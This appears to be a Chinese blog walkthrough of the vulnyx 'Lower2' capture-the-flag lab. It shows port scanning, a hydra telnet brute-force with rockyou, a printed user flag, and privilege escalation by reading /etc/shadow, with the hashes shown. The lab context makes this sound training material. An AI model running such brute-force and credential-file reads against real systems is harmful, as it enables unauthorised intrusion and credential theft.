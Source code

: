 ```yaml
---
title: 【靶场】vulnyx靶场-Lower2
date: 2025-08-30
categories:
  - 靶场
image: images/23.webp
---
```

# 简介
vulnyx是一个提供各种漏洞环境的靶场平台，大部分环境是做好的虚拟机镜像文件，镜像预先设计了多种漏洞，需要使用VMware或者VirtualBox运行。每个镜像会有破解的目标，挑战的目标是获取操作系统的root权限和查看flag。
# **部署方法**
官网：https://vulnyx.com/
1.在官网搜索你想要的镜像,然后下载
2.下载好后解压得到`.ova`的文件，右击选择VMware进行打开
3.在弹出的框中，选择存放的位置，然后点击导入
4.最后等待导入完成，然后启动该虚拟机就可以了
**部署成功**
![Pasted image 20250307124829](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250307124829.png)
# 步骤
## 信息收集
这里我就不收集了，IP地址获取到了，如果在实战情况下还是需要确认一下的，直接fscan扫一边看一下：
```
./fscan.exe 192.168.198.137 -nobr -np
nmap 192.168.30.45 -A -O -p 1-65535
```
![Pasted image 20250307125229](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250307125229.png)
![Pasted image 20250307125239](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250307125239.png)
这边使用fscan和nmap都扫描了一边发现开放了三个端口：
```
22/tcp open  ssh
23/tcp open  telnet
80/tcp open  http
```
这里进行尝试连接一下ssh，发现给出了一个账户：**b.taylor**
22端口是不能爆破的。登录了一下发现是拒绝的。那就只能爆破23端口了。
![Pasted image 20250307125456](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250307125456.png)
使用hydra进行爆破
```
字典下载地址：https://github.com/dw0rsec/rockyou.txt

hydra -l b.taylor -P /root/Desktop/Tools/rockyou.txt telnet://192.168.198.137 -V -I

```
![Pasted image 20250307130820](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250307130820.png)
账号密码：b.taylor/rockyou
使用telnet进行登录即可：
![Pasted image 20250307131333](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250307131333.png)
## user
```
ZWRjOWY1YzU1YWY4NzUwNTAzM2EyMGRkNDE5MzEzNjQK
```
![Pasted image 20250307131600](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250307131600.png)
## shadow提权
发现这个用户附加了shadow组
可以查看一下权限
```
id
cat /etc/shadow
```
![Pasted image 20250307131746](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250307131746.png)
```
b.taylor:$y$j9T$du9sW7McN8WfjLKPRheP7/$pyE/4IrgDjurpaNzpdyxj8PYcOYyDksyYPG2rxEBxm4:20135:0:99999:7:::
root:$y$j9T$du9sW7McN8WfjLKPRheP7/$pyE/4IrgDjurpaNzpdyxj8PYcOYyDksyYPG2rxEBxm4:20134:0:99999:7:::
```
然后直接修改密码即可。